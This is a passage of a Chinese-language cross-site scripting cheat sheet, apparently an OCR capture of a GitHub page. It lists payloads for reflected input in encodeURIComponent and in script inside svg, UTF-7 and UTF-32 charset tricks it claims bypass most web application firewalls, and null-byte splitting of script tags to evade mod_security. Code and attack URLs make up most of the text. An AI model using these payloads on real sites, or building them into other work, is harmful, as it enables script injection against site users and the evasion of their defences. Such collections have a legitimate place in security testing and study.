 反射输入
```
    encodeURIComponent(&#039;userinput&#039;)
```
可以使用
```
    -alert(1)-
    -prompt(1)-
    -confirm(1)-
```
结果
```
    encodeURIComponent(&#039;&#039;-alert(1)-&#039;&#039;)
    encodeURIComponent(&#039;&#039;-prompt(1)-&#039;&#039;)
```
输入反射在svg标签内

源码如下：
```
<svg><script>varmyvar=”YourInput”;</script></svg>
```
可以输入
```
www.site.com/test.php?var=text”;alert(1)//
```
如果系统编码了”字符
```
<svg><script>varmyvar="text&quot;;alert(1)//";</script></svg>
```
原因是引入了附加的（XML）到HTML内容里，可以使用2次编码处理

##浏览器BUG

字符集BUG

字符集BUG在IE中很普遍，最早的bug是UTF-7。如果能控制字符集编码，我们可以绕过99% 的WAF过滤。

示例
```
http://xsst.sinaapp.com/utf-32-1.php?charset=utf-8&v=XSS
```
可以控制编码，提交
```
http://xsst.sinaapp.com/utf-32-1.php?charset=utf-8&v=”><img
src=x onerror=prompt(0);>
```
可以修改为UTF-32编码形式
```
∀㸀㰀script㸀alert(1)㰀/script㸀
http://xsst.sinaapp.com/utf-32-1.php?charset=utf-32&v=%E2%88%80%E3%B8%80%E3%B0%80script%E3%B8%80alert(1)%E3%B0%80/script%E3%B8%80
```
空字节

最长用来绕过mod_security防火墙，形式如下：
```
    <scri%00pt>alert(1);</scri%00pt>
    <scri\x00pt>alert(1);</scri%00pt>
    <s%00c%00r%00%00ip%00t>confirm(0);</s%00c%00r%00%00ip%00t>
```
空字节只适用于PHP 5.3.8以上的版本
